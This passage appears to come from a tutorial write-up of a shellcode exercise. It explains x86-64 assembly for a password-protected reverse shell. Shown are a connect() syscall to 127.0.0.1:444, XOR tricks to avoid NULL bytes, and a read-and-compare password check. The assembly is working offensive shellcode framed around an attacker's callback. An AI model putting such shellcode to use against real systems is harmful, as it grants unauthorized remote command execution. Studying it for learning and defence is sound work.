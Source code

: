 ```nasm

    ; 3rd argument of connect(): size of the sockaddr struct
    add edx, 16

    ; syscall connect()
    add eax, 42

    ; invoke connect()
    syscall
```

<figcaption class="figure-caption">Connection to the remote address `127.0.0.1:444`</figcaption>

The peculiarity about the `sockaddr` structure is that it needs some padding bytes at the end, which are going to be `NULL` bytes.

For this reason, I decided to use the **XOR** operation in order to remove eventual `NULL` bytes from the shellcode, while still being able to add the required padding.

### Password Protection

I've already mentioned in the previous assignment that we can add password-protection by means of the syscall `read`, reading some bytes from the client and comparing them to a hard-coded password.

This means that after the attacker receives a callback on the TCP listener, they'll need to send the password before being able to execute commands on the remote system.

The following routines (`CheckPassword` and `ExitWrongPassword`) are copied from the previous assignment, so take a look at it for more information.

```nasm
CheckPassword:

    ; 3rd argument of read(): number of bytes to read
    add rdx, 8

    ; allocate 8 bytes on the stack for storing the password
    sub rsp, rdx

    ; 2nd argument of read(): pointer to buffer which will store the
    ; bytes received from the client
    mov rsi, rsp

    ; 1st argument of read() (client socket) shoud be unchanged (RDI)

    ; syscall read()
    xor eax, eax

    ; call read()
    syscall

    pop rbx
    mov rax, 0x0a32322174636272
    xor rax, rbx
    jz IO_Redirection

ExitWrongPassword:

    xor eax, eax
    add eax, 60
    syscall
```
